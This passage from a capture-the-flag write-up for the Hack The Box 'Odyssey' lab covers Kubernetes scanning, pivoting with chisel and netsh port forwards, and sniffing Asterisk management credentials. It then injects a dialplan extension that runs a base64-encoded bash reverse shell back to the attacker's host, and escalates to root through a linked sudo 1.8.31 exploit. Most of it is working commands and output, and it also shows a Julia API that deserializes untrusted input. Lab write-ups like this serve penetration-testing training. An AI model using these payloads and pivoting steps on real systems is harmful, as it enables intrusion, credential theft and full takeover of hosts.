2024-01-12 18:06:04,647 INFO kube_hunter.modules.report.collector Found vulnerability "Exposed Pods" in voip.htb:10255

Nodes
+-------------+----------+
| TYPE        | LOCATION |
+-------------+----------+
| Node/Master | voip.htb |
+-------------+----------+

Detected Services
+----------------------+----------------+----------------------+
| SERVICE              | LOCATION       | DESCRIPTION          |
+----------------------+----------------+----------------------+
| Kubelet API          | voip.htb:10255 | The read-only port   |
| (readonly)           |                | on the kubelet       |
|                      |                | serves health        |
|                      |                | probing endpoints,   |
|                      |                |     and is relied    |
|                      |                | upon by many         |
|                      |                | kubernetes           |
|                      |                | components           |
+----------------------+----------------+----------------------+
| Kubelet API          | voip.htb:10250 | The Kubelet is the   |
|                      |                | main component in    |
|                      |                | every Node, all pod  |
|                      |                | operations goes      |
|                      |                | through the kubelet  |
+----------------------+----------------+----------------------+

Vulnerabilities
For further information about a vulnerability, search its ID in: 
https://avd.aquasec.com/
+--------+----------------+----------------------+----------------------+----------------------+----------------------+
| ID     | LOCATION       | MITRE CATEGORY       | VULNERABILITY        | DESCRIPTION          | EVIDENCE             |
+--------+----------------+----------------------+----------------------+----------------------+----------------------+
| KHV044 | voip.htb:10255 | Privilege Escalation | Privileged Container | A Privileged         | pod: calico-         |
|        |                | // Privileged        |                      | container exist on a | node-9fffb,          |
|        |                | container            |                      | node                 | container: calico-   |
|        |                |                      |                      |     could expose the | node, count: 1       |
|        |                |                      |                      | node/cluster to      |                      |
|        |                |                      |                      | unwanted root        |                      |
|        |                |                      |                      | operations           |                      |
+--------+----------------+----------------------+----------------------+----------------------+----------------------+
| KHV043 | voip.htb:10255 | Initial Access //    | Cluster Health       | By accessing the     | status: ok           |
|        |                | General Sensitive    | Disclosure           | open /healthz        |                      |
|        |                | Information          |                      | handler,             |                      |
|        |                |                      |                      |     an attacker      |                      |
|        |                |                      |                      | could get the        |                      |
|        |                |                      |                      | cluster health state |                      |
|        |                |                      |                      | without              |                      |
|        |                |                      |                      | authenticating       |                      |
+--------+----------------+----------------------+----------------------+----------------------+----------------------+
| KHV052 | voip.htb:10255 | Discovery // Access  | Exposed Pods         | An attacker could    | count: 4             |
|        |                | Kubelet API          |                      | view sensitive       |                      |
|        |                |                      |                      | information about    |                      |
|        |                |                      |                      | pods that are        |                      |
|        |                |                      |                      |     bound to a Node  |                      |
|        |                |                      |                      | using the /pods      |                      |
|        |                |                      |                      | endpoint             |                      |
+--------+----------------+----------------------+----------------------+----------------------+----------------------+
```

As you see this last tool identified that one of the pods is runnigs as priviledges container which could potentially be used to escalate to root and gain access on the host machine VOIP.

* * *

## Back on Rocket track:

We can use the URL from Git to bring the register function back and register our username:



As soon we are in we can see part of a chat where the user ELPENOR tells to CREON that he/she can use "Aeolus" to perform some task as it should be a bot?



So if we try to send a message to Aeolus?



Umh it is not working, we need to find what exactly can he do? So I remember here from the GOGS selfhosted git found when i was poking around the Commits that you could use ip command to setup a new VOIP server(guess they are referring to **Asterisk** on port **TCP/5039**)?



Now my idea is if maybe we need to perform some kind of MITM? I attended a similar CTF with a bot that setup a SSH and there we sniffed the creds via ssh-mitm but here is a voip so as i wrote before i guess we need to sniff back the port 5039 instead?

To do so we have several way (Meterpreter but we aren't using it, socat, chisel and netsh.exe which is the easiest!)

### Chisel way:

we need first to setup the chisel server listening on our machine:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# ../Tools/Chisel/chisel server --reverse -v -p 1234         
2024/01/18 13:30:14 server: Reverse tunnelling enabled
2024/01/18 13:30:14 server: Fingerprint G6VK/Tenz+u7zOB3H2LkG8UO/Y+XfcblwbtfbnvK9s4=
2024/01/18 13:30:14 server: Listening on http://0.0.0.0:1234
2024/01/18 13:34:59 server: session#1: Handshaking with 10.13.38.21:64184...
2024/01/18 13:35:00 server: session#1: Verifying configuration
2024/01/18 13:35:00 server: session#1: tun: Created
2024/01/18 13:35:00 server: session#1: tun: proxy#R:5038=>5038: Listening
2024/01/18 13:35:00 server: session#1: tun: SSH connected
2024/01/18 13:35:00 server: session#1: tun: proxy#R:5039=>5039: Listening
2024/01/18 13:35:00 server: session#1: tun: Bound proxies
```

And on the victim in client mode that reverse portfw port 5038/9 and connects back to us. OBS: This solution don't rely on proxychains so we should be able to use our commands with localhost:5038.

```
*Evil-WinRM* PS C:\temp> ./chisel.exe client -v 10.10.14.13:1234 R:5038:127.0.0.1:5038 R:5039:127.0.0.1:5039
chisel.exe : 2024/01/18 05:34:59 client: Connecting to ws://10.10.14.13:1234
    + CategoryInfo          : NotSpecified: (2024/01/18 05:3...0.10.14.13:1234:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/01/18 05:34:59 client: Handshaking...2024/01/18 05:35:00 client: Sending config2024/01/18 05:35:00 client: Connected (Latency 39.9234ms)2024/01/18 05:35:00 client: tun: SSH connected
```

The problem here is that we need to reach the traffic by sniffing the port and we can't as it sees it as already used by chisel:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# nc -lvnp 5039
retrying local 0.0.0.0:5039 : Address already in use
retrying local 0.0.0.0:5039 : Address already in use
^C
```

## NETSH.exe way:

This is the easiest but requeires Administrators rights, and on the victim we can setup a remote port forward to forward the traffic on port 5039 back to our machine:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh.exe interface portproxy add v4tov4 listenport=5039 listenaddress=192.168.21.10 connectport=5039 connectaddress=10.10.14.13

*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
0.0.0.0         5038        10.10.14.6      5038
192.168.21.10   9001        10.10.14.6      9001
192.168.21.10   4444        10.10.14.6      4444
192.168.21.10   5039        10.10.14.13     5039

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Now here i have no clue why but I got the tips that the port to be used was supposed to be 5038 and not 5039! Where adjusting the netsh.exe port forward result in a success and we have aeolus credentials!

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# nc -lvnp 5038
listening on [any] 5038 ...
connect to [10.10.14.13] from (UNKNOWN) [10.13.38.21] 64215
Action: login
Username: aeolus
Secret: P7xJ6y6x
ActionID: __auth_1705582770602__
```

The reason I think is explained here: [http://asteriskdocs.org/en/3rd\_Edition/asterisk-book-html-chunk/AMI-configuration.html](http://asteriskdocs.org/en/3rd_Edition/asterisk-book-html-chunk/AMI-configuration.html)

Basically tcp/5038= is the default non TSL port for the Management Asterisk where instead the tcp/5039= is the default counterpart for TLS version!

* * *

## Attacking the Asterisk:

Now since we know from previous port that the AMI(Asterisk Management Interface) is configured to use the secure TSL channel on the default port 5039 then we need to use openssl to do so. And it should be something like:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# openssl s_client -quiet -connect voip.htb:5039
depth=0 C = GR, ST = Athens, L = Piraeus, O = HackTheBox, CN = HTB, emailAddress = ch4p@odyssey.htb
verify error:num=18:self-signed certificate
verify return:1
depth=0 C = GR, ST = Athens, L = Piraeus, O = HackTheBox, CN = HTB, emailAddress = ch4p@odyssey.htb
verify error:num=10:certificate has expired
notAfter=May 18 13:45:50 2020 GMT
verify return:1
depth=0 C = GR, ST = Athens, L = Piraeus, O = HackTheBox, CN = HTB, emailAddress = ch4p@odyssey.htb
notAfter=May 18 13:45:50 2020 GMT
verify return:1
Asterisk Call Manager/5.0.0

Response: Error
Message: Missing action in request
```

Ok it's mentioning about a "missing action..." what if we need to ship the one we got from the MITM?

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# openssl s_client -quiet -connect voip.htb:5039
depth=0 C = GR, ST = Athens, L = Piraeus, O = HackTheBox, CN = HTB, emailAddress = ch4p@odyssey.htb
verify error:num=18:self-signed certificate
verify return:1
depth=0 C = GR, ST = Athens, L = Piraeus, O = HackTheBox, CN = HTB, emailAddress = ch4p@odyssey.htb
verify error:num=10:certificate has expired
notAfter=May 18 13:45:50 2020 GMT
verify return:1
depth=0 C = GR, ST = Athens, L = Piraeus, O = HackTheBox, CN = HTB, emailAddress = ch4p@odyssey.htb
notAfter=May 18 13:45:50 2020 GMT
verify return:1
Asterisk Call Manager/5.0.0
action: login
username: aeolus
secret: P7xJ6y6x

Response: Success
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 36136
LastReload: 36136
Status: Fully Booted
```

Nice we are in authenticated! And seems like we have full access on the system? Now we need to find a reference of all the command we can do here? And after some google found out this one: [https://www.emetrotel.com/tsd/sites/default/files/doc\_images/manager-commands-3.png](https://www.emetrotel.com/tsd/sites/default/files/doc_images/manager-commands-3.png)

And what if we start with the status command?

```
Event: Status
Privilege: Call
Channel: Local/test@pwned-00000000;2
ChannelState: 4
ChannelStateDesc: Ring
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705582784.1
Linkedid: 1705582784.0
Type: Local
DNID: 
EffectiveConnectedLineNum: <unknown>
EffectiveConnectedLineName: <unknown>
TimeToHangup: 0
BridgeID: 
Application: System
Data: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxLjEwLzQ0NDQgMD4mMSIK|base64 -d|bash
Nativeformats: (slin)
Readformat: slin
Readtrans: 
Writeformat: slin
Writetrans: 
Callgroup: 0
Pickupgroup: 0
Seconds: 1248

Event: StatusComplete
EventList: Complete
ListItems: 1
Items: 1
```

Umh.. what is that B64 encoded data? Ok seems like it's part of a old Revshell maybe from another user...  Now here I had to ask again for tips and apparently the way in was to use the "*DialplanExtensionAdd: Add an extension to the dialplan (Priv: system,all)*".

```
action: DialplanExtensionAdd

Response: Error
Message: Context, Extension, Priority, and Application must be defined for DialplanExtensionAdd.
```

As you see there is 3 values that need to be shipped together with the command but it isn't working!

```
action:DialplanExtensionAdd
yovecio,yovecio,1,system(echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy81NTU1IDA+JjEi|base64 -d|bash)
```

Here the reference of the command: [https://docs.asterisk.org/Asterisk\_18\_Documentation/API\_Documentation/AMI\_Actions/DialplanExtensionAdd/](https://docs.asterisk.org/Asterisk_18_Documentation/API_Documentation/AMI_Actions/DialplanExtensionAdd/)

```
Action: DialplanExtensionAdd
Context: yovecio
Extension: yovecio
Priority: 1
Application: System
[ApplicationData:Data] 
[Replace:] 'echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy81NTU1IDA+JjEi|base64 -d|bash'

Response: Success
Message: Added requested extension
```

Even if we get success we can't see it in the status which mean we maybe need to replace the actual one?

```
Action: DialplanExtensionAdd
Context: yovecio
Extension: yovecio
Priority: 1
Application: System
[ApplicationData:Data] 'echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy81NTU1IDA+JjEi|base64 -d|bash'
[Replace:] 1

Response: Error
Message: That extension and priority already exist at that context
```

I got the guidance to use this:

```
Response: Error
Message: Command output follows
Output: Usage: dialplan add extension <exten>,<priority>,<app> into <context> [replace]
Output: 
Output:        app can be either:
Output:          app-name
Output:          app-name(app-data)
Output:          app-name,<app-data>
Output: 
Output:        This command will add the new extension into <context>.  If
Output:        an extension with the same priority already exists and the
Output:        'replace' option is given we will replace the extension.
Output: 
Output: Example: dialplan add extension 6123,1,Dial,IAX/216.207.245.56/6123 into local
Output:          Now, you can dial 6123 and talk to Markster :)

Action: Command
Command: dialplan add extension test,1,system(echo\ YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy81NTU1IDA+JjEi|base64\ -d|bash), into pwned replace

Response: Success
Message: Command output follows
Output: Extension test@pwned (1) replace by 'test,1,system(echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy81NTU1IDA+JjEi|base64 -d|bash)'
```

We can check success by using the command ORIGINATE that performs a fake call from the outside that will "invoke our command":

```
Action: Command
Command: originate local/test@pwned extension test@pwned

Response: Success
Message: Command output follows
Output: 

Event: Newchannel
Privilege: call,all
Channel: Local/test@pwned-00000001;1
ChannelState: 0
ChannelStateDesc: Down
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705588856.2
Linkedid: 1705588856.2

Event: Newchannel
Privilege: call,all
Channel: Local/test@pwned-00000001;2
ChannelState: 4
ChannelStateDesc: Ring
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705588856.3
Linkedid: 1705588856.2

Event: Newexten
Privilege: dialplan,all
Channel: Local/test@pwned-00000001;1
ChannelState: 0
ChannelStateDesc: Down
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705588856.2
Linkedid: 1705588856.2
Extension: test
Application: AppDial2
AppData: (Outgoing Line)

Event: LocalBridge
Privilege: call,all
LocalOneChannel: Local/test@pwned-00000001;1
LocalOneChannelState: 0
LocalOneChannelStateDesc: Down
LocalOneCallerIDNum: <unknown>
LocalOneCallerIDName: <unknown>
LocalOneConnectedLineNum: <unknown>
LocalOneConnectedLineName: <unknown>
LocalOneLanguage: en
LocalOneAccountCode: 
LocalOneContext: pwned
LocalOneExten: test
LocalOnePriority: 1
LocalOneUniqueid: 1705588856.2
LocalOneLinkedid: 1705588856.2
LocalTwoChannel: Local/test@pwned-00000001;2
LocalTwoChannelState: 4
LocalTwoChannelStateDesc: Ring
LocalTwoCallerIDNum: <unknown>
LocalTwoCallerIDName: <unknown>
LocalTwoConnectedLineNum: <unknown>
LocalTwoConnectedLineName: <unknown>
LocalTwoLanguage: en
LocalTwoAccountCode: 
LocalTwoContext: pwned
LocalTwoExten: test
LocalTwoPriority: 1
LocalTwoUniqueid: 1705588856.3
LocalTwoLinkedid: 1705588856.2
Context: pwned
Exten: test
LocalOptimization: Yes

Event: DialBegin
Privilege: call,all
DestChannel: Local/test@pwned-00000001;1
DestChannelState: 0
DestChannelStateDesc: Down
DestCallerIDNum: <unknown>
DestCallerIDName: <unknown>
DestConnectedLineNum: <unknown>
DestConnectedLineName: <unknown>
DestLanguage: en
DestAccountCode: 
DestContext: pwned
DestExten: test
DestPriority: 1
DestUniqueid: 1705588856.2
DestLinkedid: 1705588856.2
DialString: test@pwned

Event: TestEvent
Privilege: reporting,all
Type: StateChange
State: CallIDChange
AppFile: channel_internal_api.c
AppFunction: ast_channel_callid_set
AppLine: 775
State: CallIDChange
Channel: Local/test@pwned-00000001;2
CallID: [C-00000002]
PriorCallID: 

Event: Newexten
Privilege: dialplan,all
Channel: Local/test@pwned-00000001;2
ChannelState: 4
ChannelStateDesc: Ring
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705588856.3
Linkedid: 1705588856.2
Extension: test
Application: System
AppData: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy81NTU1IDA+JjEi|base64 -d|bash

Event: VarSet
Privilege: dialplan,all
Channel: Local/test@pwned-00000001;2
ChannelState: 4
ChannelStateDesc: Ring
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705588856.3
Linkedid: 1705588856.2
Variable: SYSTEMSTATUS
Value: APPERROR
```

This haven't worked out which means we need to setup another reverse port fw in Pivot machine:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh.exe interface portproxy add v4tov4 listenport=5555 listenaddress=192.168.21.10 connectport=5555 connectaddress=10.10.14.13

*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
0.0.0.0         5038        10.10.14.6      5038
192.168.21.10   9001        10.10.14.6      9001
192.168.21.10   4444        10.10.14.6      4444
192.168.21.10   5039        10.10.14.13     5039
192.168.21.10   5038        10.10.14.13     5038
192.168.21.10   5555        10.10.14.13     5555
```

And tring again:

```
Action: Command
Command: dialplan add extension test,1,system(echo\ YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxLjEwLzU1NTUgMD4mMQ==|base64\ -d|bash), into pwned replace

Response: Success
Message: Command output follows
Output: Extension test@pwned (1) replace by 'test,1,system(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxLjEwLzU1NTUgMD4mMQ==|base64 -d|bash)'

Action: Command
Command: originate local/test@pwned extension test@pwned

Response: Success
Message: Command output follows
Output: 

Event: Newchannel
Privilege: call,all
Channel: Local/test@pwned-00000002;1
ChannelState: 0
ChannelStateDesc: Down
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705589995.4
Linkedid: 1705589995.4

Event: Newchannel
Privilege: call,all
Channel: Local/test@pwned-00000002;2
ChannelState: 4
ChannelStateDesc: Ring
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705589995.5
Linkedid: 1705589995.4

Event: Newexten
Privilege: dialplan,all
Channel: Local/test@pwned-00000002;1
ChannelState: 0
ChannelStateDesc: Down
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705589995.4
Linkedid: 1705589995.4
Extension: test
Application: AppDial2
AppData: (Outgoing Line)

Event: LocalBridge
Privilege: call,all
LocalOneChannel: Local/test@pwned-00000002;1
LocalOneChannelState: 0
LocalOneChannelStateDesc: Down
LocalOneCallerIDNum: <unknown>
LocalOneCallerIDName: <unknown>
LocalOneConnectedLineNum: <unknown>
LocalOneConnectedLineName: <unknown>
LocalOneLanguage: en
LocalOneAccountCode: 
LocalOneContext: pwned
LocalOneExten: test
LocalOnePriority: 1
LocalOneUniqueid: 1705589995.4
LocalOneLinkedid: 1705589995.4
LocalTwoChannel: Local/test@pwned-00000002;2
LocalTwoChannelState: 4
LocalTwoChannelStateDesc: Ring
LocalTwoCallerIDNum: <unknown>
LocalTwoCallerIDName: <unknown>
LocalTwoConnectedLineNum: <unknown>
LocalTwoConnectedLineName: <unknown>
LocalTwoLanguage: en
LocalTwoAccountCode: 
LocalTwoContext: pwned
LocalTwoExten: test
LocalTwoPriority: 1
LocalTwoUniqueid: 1705589995.5
LocalTwoLinkedid: 1705589995.4
Context: pwned
Exten: test
LocalOptimization: Yes

Event: DialBegin
Privilege: call,all
DestChannel: Local/test@pwned-00000002;1
DestChannelState: 0
DestChannelStateDesc: Down
DestCallerIDNum: <unknown>
DestCallerIDName: <unknown>
DestConnectedLineNum: <unknown>
DestConnectedLineName: <unknown>
DestLanguage: en
DestAccountCode: 
DestContext: pwned
DestExten: test
DestPriority: 1
DestUniqueid: 1705589995.4
DestLinkedid: 1705589995.4
DialString: test@pwned

Event: TestEvent
Privilege: reporting,all
Type: StateChange
State: CallIDChange
AppFile: channel_internal_api.c
AppFunction: ast_channel_callid_set
AppLine: 775
State: CallIDChange
Channel: Local/test@pwned-00000002;2
CallID: [C-00000003]
PriorCallID: 

Event: Newexten
Privilege: dialplan,all
Channel: Local/test@pwned-00000002;2
ChannelState: 4
ChannelStateDesc: Ring
CallerIDNum: <unknown>
CallerIDName: <unknown>
ConnectedLineNum: <unknown>
ConnectedLineName: <unknown>
Language: en
AccountCode: 
Context: pwned
Exten: test
Priority: 1
Uniqueid: 1705589995.5
Linkedid: 1705589995.4
Extension: test
Application: System
AppData: echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxLjEwLzU1NTUgMD4mMQ==|base64 -d|bash
```

This results in a shell:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.13] from (UNKNOWN) [10.13.38.21] 64264
bash: cannot set terminal process group (1204): Inappropriate ioctl for device
bash: no job control in this shell
asterisk@odyssey:/var/lib/asterisk$ ls
ls
astdb.sqlite3
moh
priv-callerintros
sounds
asterisk@odyssey:/var/lib/asterisk$ cd ..
```

* * *

## Road to Root.txt:

Here after a short enumeration we found out that the sudo version is 1.8.31:

```
asterisk@odyssey:/tmp$ sudo --version
sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
asterisk@odyssey:/tmp$
```

This is a good news as we can use this to PE to root:

https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

And likewise we are in!

```
asterisk@odyssey:/tmp$ sudo --version
sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
asterisk@odyssey:/tmp$ ls
ls
exploit_nss.py
libnss_X
lse.sh
snap.lxd
snap.rocketchat-server
systemd-private-76e8a3086b7a4c69a84a02f766bb11e1-systemd-logind.service-74dmBi
systemd-private-76e8a3086b7a4c69a84a02f766bb11e1-systemd-resolved.service-1kCQOg
systemd-private-76e8a3086b7a4c69a84a02f766bb11e1-systemd-timesyncd.service-KJsz2e
tmux-112
vmware-root_900-2722108090
asterisk@odyssey:/tmp$ python exploit_nss.py
python exploit_nss.py
# id
id
uid=0(root) gid=0(root) groups=0(root),20(dialout),29(audio),117(asterisk)
# cd /root
cd /root
# ls
ls
f.sh  f.yml  flag.txt  snap
# cat flag.txt
cat flag.txt
ODYSSEY{W3_4LL_4r3_p4r7_Of_4_cluS73R}
#
```

* * *

## Moving on:

In /opt we can find some traces of a old git repository pointing to a internal API?

```
ls -al elpenor
total 16
drwxr-xr-x 4 asterisk root 4096 Mar 22  2021 .
drwxr-xr-x 5 asterisk root 4096 Feb 28  2021 ..
drwxr-xr-x 7 asterisk root 4096 Mar 25  2021 apikey_beta.git
drwxr-xr-x 7 asterisk root 4096 Feb 28  2021 rocketchat_bot.git
```

We can try to get the log of the commits:

```
root@odyssey:/opt/git/gogs-repositories/elpenor/apikey_beta.git# git log
git log
WARNING: terminal is not fully functional
-  (press RETURN)
commit 0512c3229cd8d14fa068477565f5b2a1a64197a2 (HEAD -> master)
Author: elpenor <elpenor@odyssey.htb>
Date:   Thu Mar 25 10:43:44 2021 +0000

    Update 'README.md'

commit 4195344d5edcf5edf87f4d13746ac041c7cc7bf9
Author: elpenor <elpenor@odyssey.htb>
Date:   Thu Mar 25 10:43:06 2021 +0000

    Update 'README.md'

commit 1eb691701eb5bfad0f9f16948008beae8178fc26
Author: elpenor <elpenor@odyssey.htb>
Date:   Mon Mar 22 16:51:10 2021 +0000

    Add 'genie.service'

commit de408ae87b1da43100d576d052a0c1040593d731
Author: elpenor <elpenor@odyssey.htb>
Date:   Mon Mar 22 16:48:30 2021 +0000

    Add 'run.ji'
:

:
commit dd92b538d21d11b79caf65651f66c18f1cc526c5
:
Author: elpenor <elpenor@odyssey.htb>
:

Date:   Mon Mar 22 16:41:13 2021 +0000
:
:


    Initial commit
```

And opening that run file we can see part of a Deserialization?

```
root@odyssey:/opt/git/gogs-repositories/elpenor/apikey_beta.git# git show de408ae87b1da43100d576d052a0c1040593d731
<# git show de408ae87b1da43100d576d052a0c1040593d731             
WARNING: terminal is not fully functional
-  (press RETURN)
commit de408ae87b1da43100d576d052a0c1040593d731
Author: elpenor <elpenor@odyssey.htb>
Date:   Mon Mar 22 16:48:30 2021 +0000

    Add 'run.ji'

diff --git a/run.ji b/run.ji
new file mode 100644
index 0000000..c30ddbd
--- /dev/null
+++ b/run.ji
@@ -0,0 +1,28 @@
+using Genie
+using Genie.Router, Genie.Renderer, Genie.Renderer.Html, Genie.Renderer.Json, G
enie.Requests, Base64, Serialization
+
+route("/") do
+    return "Key API"
+end
+
+route("/key", method = POST) do
+    data = postpayload(:f)
+    io = IOBuffer()
:
+    iob64_decode = Base64DecodePipe(io)
:
+    write(io, data)
:
+    seekstart(io)
:

+    new_data = String(read(iob64_decode))
:

+    con = isfile("/tmp/f.txt")
:
+    if con == true
:
+        rm("/tmp/f.txt")
:
+    else
:
+        "N"
:+    end
:+    open("/tmp/f.txt", "w") do io
:
+        write(io, new_data)
:
+    end;
:

+


:

+    Serialization.deserialize("/tmp/f.txt");
:
+end
:+
:+up(3000, "0.0.0.0", async=false)
```

And the other one is a Julia API backend:

```
root@odyssey:/opt/git/gogs-repositories/elpenor/apikey_beta.git# git show 1eb691701eb5bfad0f9f16948008beae8178fc26
<# git show 1eb691701eb5bfad0f9f16948008beae8178fc26             
WARNING: terminal is not fully functional
-  (press RETURN)
commit 1eb691701eb5bfad0f9f16948008beae8178fc26
Author: elpenor <elpenor@odyssey.htb>
Date:   Mon Mar 22 16:51:10 2021 +0000

    Add 'genie.service'

diff --git a/genie.service b/genie.service
new file mode 100644
index 0000000..0326225
--- /dev/null
+++ b/genie.service
@@ -0,0 +1,11 @@
+[Unit]
+Description= Julia API
+After=network.target
+
+[Service]
+Type=simple
+User=elpenor
+ExecStart=/usr/bin/julia /opt/beta_api/run.ji
+
+[Install]
+WantedBy=multi-user.target
:
\ No newline at end of file
:
```